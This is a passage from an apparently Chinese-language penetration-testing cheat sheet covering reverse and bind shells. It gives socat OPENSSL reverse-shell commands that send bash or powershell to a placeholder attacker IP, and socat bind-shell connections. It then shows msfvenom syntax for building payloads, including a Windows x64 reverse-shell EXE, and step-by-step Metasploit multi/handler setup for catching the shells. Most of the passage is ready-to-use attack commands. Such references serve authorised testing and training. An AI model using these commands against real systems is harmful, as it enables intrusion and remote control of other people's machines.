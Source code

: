         ```bash
        # Linux (配合稳定监听):
        socat OPENSSL:<ATTACKER_IP>:<PORT>,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
        # Windows (配合稳定监听):
        socat OPENSSL:<ATTACKER_IP>:<PORT>,verify=0 EXEC:powershell.exe,pipes
        ```
    *   **连接绑定监听:**
        ```bash
        socat OPENSSL:<TARGET_IP>:<TARGET_PORT>,verify=0 -
        # 结合TTY稳定化 (连接到稳定绑定Shell):
        socat OPENSSL:<TARGET_IP>:<TARGET_PORT>,verify=0 FILE:`tty`,raw,echo=0
        ```

### 9. 使用 `msfvenom` 生成Payload
#### 概述
`msfvenom` 是Metasploit框架中的一个工具，用于生成各种格式的Shellcode和Payload（包括反弹和绑定Shell），支持多种平台和架构。
#### 方法
1.  **基本语法:**
    `msfvenom -p <PAYLOAD> [OPTIONS] LHOST=<ATTACKER_IP> LPORT=<LISTENER_PORT> -f <FORMAT> -o <OUTPUT_FILE>`
    *   `-p`: 指定Payload (e.g., `windows/x64/shell_reverse_tcp`, `linux/x86/meterpreter/reverse_tcp`)
    *   `LHOST`: 监听者（攻击者）IP地址。
    *   `LPORT`: 监听者端口。
    *   `-f`: 输出格式 (e.g., `exe`, `elf`, `php`, `py`, `raw`)。
    *   `-o`: 输出文件名。
    *   `--list payloads`: 查看所有可用Payload。

2.  **Payload命名约定:**
    *   `<OS>/<arch>/<payload>` 或 `<OS>/<payload>`
    *   Staged (分阶段): 如 `windows/meterpreter/reverse_tcp` (先发送小程序，再加载大功能)。
    *   Stageless (无阶段): 如 `windows/meterpreter_reverse_tcp` (一次性发送完整功能)。 通常文件名中用下划线分隔表示无阶段。

3.  **示例 (Windows x64反弹TCP Shell EXE):**
    ```bash
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<LISTENER_PORT> -f exe -o reverse_shell.exe
    ```

### 10. 使用Metasploit `multi/handler` 接收Shell
#### 概述
Metasploit的 `exploit/multi/handler` 是一个通用的监听器，专门用于接收由`msfvenom`生成的（尤其是Meterpreter）Shell连接。
#### 方法
1.  启动Metasploit控制台: `msfconsole`
2.  选择 `multi/handler`: `use exploit/multi/handler`
3.  设置Payload (必须与`msfvenom`生成时使用的Payload匹配):
    `set PAYLOAD <payload_name>` (e.g., `set PAYLOAD windows/x64/shell_reverse_tcp`)
4.  设置监听IP (`LHOST`): `set LHOST <ATTACKER_IP>` (通常是攻击者本地IP)
5.  设置监听端口 (`LPORT`): `set LPORT <LISTENER_PORT>`
6.  启动监听器:
    *   `run` 或 `exploit` (在前台运行)
    *   `exploit -j` (在后台作为作业运行，允许继续使用`msfconsole`)
7.  当目标机器执行相应的`msfvenom`生成的Payload时，`multi/handler`会接收连接，并建立会话。
